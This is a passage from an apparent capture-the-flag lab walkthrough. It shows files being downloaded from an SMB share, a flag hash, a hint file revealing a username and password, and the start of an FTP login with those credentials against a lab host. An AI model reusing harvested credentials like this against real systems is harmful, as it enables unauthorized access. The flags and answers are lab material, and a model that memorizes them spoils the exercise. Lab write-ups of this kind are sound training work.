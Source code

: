 ### Step 5: File Retrieval and Analysis

```bash
download flag2.txt
download hint.txt
```

**File Download Results:**
```
SMB (10.2.27.100\ITResources) > download flag2.txt
[*] Downloaded 34.00 B of 34.00 B (100.0%)
[+] Downloaded flag2.txt to flag2.txt
SMB (10.2.27.100\ITResources) > download hint.txt
[*] Downloaded 71.00 B of 71.00 B (100.0%)
[+] Downloaded hint.txt to hint.txt
```

```bash
cat flag2.txt
```

**Flag 2 Content:**
```
1dd400033942437c983d4ca85c044828
```

🚩 **Flag 2**: `1dd400033942437c983d4ca85c044828`

```bash
cat hint.txt
```

**Hint File Content:**
```
Who knows, these creds might come handy! ---> david:omnitrix_9901
```

This provides us with credentials for user `david`, which will be useful for our next challenge.

## Challenge 3: FTP Service Exploitation

### Objective
*"I wonder what the hint found in the previous challenge be useful for!"*

The hint file provided credentials for user `david`. Since we discovered FTP running on port 21 during our initial reconnaissance, let's try these credentials there.

### Step 1: FTP Authentication

Using the credentials discovered in the hint file:

```bash
ftp target.ine.local
# Username: david
# Password: omnitrix_9901
```
